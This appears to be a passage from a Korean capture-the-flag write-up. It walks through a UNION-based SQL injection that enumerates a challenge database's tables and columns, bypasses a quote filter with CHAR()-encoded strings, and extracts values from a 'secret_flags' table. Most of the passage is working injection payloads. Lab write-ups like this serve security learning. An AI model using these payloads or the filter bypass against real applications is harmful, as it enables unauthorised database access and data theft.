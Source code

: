 ![union select](/assets/web-screenshots/union-sqli/spec3_database.png)

> 데이터베이스 이름 **spec3**

후에 이제 `information_schema.tables`를 이용해 데이터베이스 `spec3` 내의 테이블 목록을 확인해보았다.

```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema='spec3'+limit+0,1),2,3,4,5--+
```

**문자열 리터럴을 포함한 SQL 구문(`'spec3'`)**을 삽입하려 하자, **"error":"Invalid character detected"** 메시지가 출력되며 필터링이 작동하였다. 

이를 우회하기 위해 `'spec3'`을 직접 입력하는 대신, 아래와 같이 `CHAR()` 함수를 사용한 **ASCII 기반 문자열 생성 방식**으로 접근하였다.


```html
-1+union+select+(select+table_name+from+information_schema.tables+where+table_schema=CHAR(115,112,101,99,51)+limit+2,1),2,3,4,5--+
```

쿼리 실행 결과, 테이블 이름으로 **secret_flags**가 출력되었고, 이후 이 테이블을 대상으로 컬럼 및 데이터를 조회할 수 있었다.

이제 `information_schema.columns`를 사용하여 `secret_flags` 테이블의 컬럼명을 확인하기 위해 다음과 같은 쿼리를 입력하였다. 

```html
-1+union+select+(select+column_name+from+information_schema.columns+where+table_schema=CHAR(115,112,101,99,51)+and+table_name=CHAR(115,101,99,114,101,116,95,102,108,97,103,115)+limit+2,1),2,3,4,5--+ 
```

쿼리 실행 결과, 각각 **id, flag_name, flag_value**라는 컬럼명을 확인할 수 있었다.

이후 `flag_value` 컬럼에서 실제 플래그 값을 추출하기 위해, `UNION SELECT`와 서브쿼리를 조합한 다음의 SQL 인젝션을 시도하였다.

```html
-1+union+select+(select+flag_name+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+

-1+union+select+(select+flag_value+from+secret_flags+limit+5,1),2,3,4,5,6,7,8--+
```

아까와 똑같이 `flag_name` 의 5번째 행이 **`real_flag`**임을 확인할 수 있었고, 나머지 행들은 모두 `fake_flag`로 설정되어 있었다.
